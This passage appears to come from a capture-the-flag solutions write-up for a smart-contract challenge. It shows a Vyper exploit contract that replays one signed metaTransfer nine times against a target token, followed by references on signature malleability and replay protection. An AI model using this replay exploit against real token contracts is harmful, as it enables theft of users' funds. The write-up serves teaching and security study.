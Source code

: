 
`MetaTokenExploit.vy`:
```python

# YOUR EXPLOIT HERE
@external
def run(
    sender: address,
    receiver: address,
    amount: uint256,
    v: uint256,
    r: uint256,
    s: uint256
):
    for i in range(9):
        Token(self.target).metaTransfer(sender, receiver, amount, v, r, s)

```

You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/meta-token.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/MetaTokenExploit.vy).


## 4) References

- [Solidity - ecrecover](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html)
- [SWC-117 - Signature Malleability](https://swcregistry.io/docs/SWC-117)
- [SWC-121 - Missing Protection against Signature Replay Attacks](https://swcregistry.io/docs/SWC-121)
